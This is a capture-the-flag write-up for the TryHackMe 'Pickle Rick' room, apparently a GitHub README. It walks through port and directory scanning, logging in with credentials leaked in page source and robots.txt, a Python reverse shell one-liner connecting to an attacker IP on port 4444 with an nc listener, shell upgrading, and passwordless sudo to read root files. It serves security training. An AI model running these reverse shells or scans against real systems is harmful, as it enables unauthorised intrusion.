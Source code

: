 This is a detailed walkthrough of tryhackme CTF titled Pickle Rick: This Rick and Morty-themed CTF revolves around exploiting a vulnerable web server to find three ingredients to transform Rick from a pickle back to human state. This walkthrough is intended to be used as a guide so no actaul flags or "answers" will be revealed. 

## Scanning

First off, let's store the target IP as a variable for easy access.

Command: export ip=xx.xx.xx.xx

Next, let's run an nmap scan on the target IP:
```bash
nmap -A -v $ip -oN nmap.txt
```

Command break down:

-A: This flag enables aggressive scanning. It combines various scan types (like OS detection, version detection, script scanning, and traceroute) into a single scan.

-v: increases verbosity, providing more detailed output during the scan.

—$ip: provides the target IP we stored as the variable $ip.

-oN nmap.txt: This option specifies normal output that should be saved to a file named “nmap.txt.

This scan reveals two open ports:

![nmap_result](https://github.com/user-attachments/assets/9cffca0f-cd9d-44e0-99eb-7bd522615f25)

# Enumeration

### **Analysis Port 80/TCP**

Let's check out the websever on port 80/TCP.

I checked the source code and revealed a username in the html comments:

![pagesource](https://github.com/user-attachments/assets/23742b21-e765-47e8-8788-cc3d68224727)


Now let's run a directory scan on the target using gobuster:

```bash
gobuster dir -u $ip -w=/usr/share/wordlists/dirb/common.txt -x txt,php,html -o buster.txt
```
Command break down:

dir: Specifies that we want to perform directory brute-forcing.

-u $ip: The -u flag followed by the target IP address or hostname indicates the URL to scan.

-w=/usr/share/wordlists/dirb/common.txt: This option specifies the wordlist to use for directory brute-forcing. In this case, it uses the common wordlist located at /usr/share/wordlists/dirb/common.txt.

-x txt,php,html: The -x flag specifies file extensions to search for. Here, we’re looking for files with extensions .txt, .php, and .html.

-o buster.txt: The -o flag specifies the output file where the results will be saved. In this case, it saves the output to a file named “buster.txt.”

We found two interesting directories:

![buster](https://github.com/user-attachments/assets/005f3530-538e-4fb7-a809-9c0379e1e99b)

```bash
/login.php
/robots.txt
```

Robots.txt can often reveal vulnerabilities in a web server, or inadvertently leaked information. 
Let's also run a nikto scan on the target IP:

```bash
nikto -h $ip | tee nikto.txt
```
Command break down:
-h $ip: The -h option specifies the target host

| tee nikto.txt: The tee command allows you to save the output to a file (nikto.txt) 

![nikto](https://github.com/user-attachments/assets/2be2bf43-af1f-4a72-929a-76fdcbce784f)

This again reveals the /login.php directory among other information.

Browsing to /login.php , we are redirected to a log in page :

![login](https://github.com/user-attachments/assets/8ffd221c-cca9-4f8e-bee7-36c19203e518)

Navigating to robots.txt reveals a strange word that looks like it might be a login password.

Let's try logging in with the username we found earlier from the sourcecode and the potential password from robots.txt.

# Gaining privileges

Success! We are now logged in!

We are presented with a command panel. 

Running the command id reveals that we are www-data:

```bash
id
```
![id](https://github.com/user-attachments/assets/3366d92d-5891-44e8-8dce-2f462c7998d9)

Now, let's run ls -la to see what files are available: 

```bash
ls -la
```
![ls -la](https://github.com/user-attachments/assets/ec5f253e-5e29-4132-afb8-42615a23012e)

Let's run the cat command on clue.txt:

![cat](https://github.com/user-attachments/assets/5a99da24-b9ab-430f-8347-eaf843b8b82e)

The cat command is disabled. Let's try some other commands with similiar functionality to cat, like less. 
less works and the contents display: Look around the file system for the other ingredient.
Ok, let's run less on Sup3rS3cretPickl3Ingred.txt.
And this returns our first secret ingredient!

# Expolitation

Let's try to get more access to this web server with a reverse shell. 
As a test, let's run a simple python command:

```bash
python3 -c 'print("test")'
```
The command works and displayed test. This let's us know that we can run python3 commands. So, let's try running a reverse shell in python3. 
I often like to use the site "https://www.revshells.com/" because it has a large colletion of reverse shell, with a simple interface to input 
your IP and desired port number, as well as showing the nc listener.

Scroll down on through the list of reverse shells on the bottom left until you get to Python3 shortest. In our situation with the command panel,
I find that shorter shells tend to have a high success rate.

Shell for input on command panel:

```bash
python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("10.10.24.123",4444));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")'
```

nc listener for output on our terminal:
```bash
nc -lvnp 4444
```

Alright! We have a reverse shell as www-data! Let's run the command env to get a summary of environmental varialbles:

![env](https://github.com/user-attachments/assets/fc127f2a-363d-4178-9f22-c83e649baa39)

Ok, the first thing I like to do is run a few commands to upgrade our shell's functionality and stability:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
ctrl -z
stty raw -echo; fg
stty rows 38 columns 116
```

Now that we have upgraded the shell, let's check for privileges of www-data:

Command:
```bash
sudo -l
```
![sudo -l](https://github.com/user-attachments/assets/19ce7691-b99e-4672-b0db-c1f42841d650)

This is great news as it indicates we can execute any command with no password!
Let's explore the file system and get the other flags. First, let's check the home directory:
Command:
```bash
ls /home
```
We see two directories in home: rick and ubuntu. Now, we'll navigate to /home/rick.
Command:
```bash
cd /home/rick
ls -lah
```

Great! Let's use less to see the contents of the 2nd ingredient, don't forget to use '' due to the space.


![2nd](https://github.com/user-attachments/assets/da82fe39-0967-4c92-a433-042f5c4d7539)

We now have the second ingredient! 
Let's check the root directory for the 3rd one. A couple things to note. We will need to use the sudo command with no pasword to display the 3rd flag. I also noticed that we actually can use the cat command in our shell.
```bash
sudo ls /root
sudo cat /root/3rd.txt
```

And we now have the 3rd flag! I hope you enjoyed this CTF and it was a good learning experience. Remember that there are different approaches that you can take in the room to get the same results, so try some different approaches and techniques. 


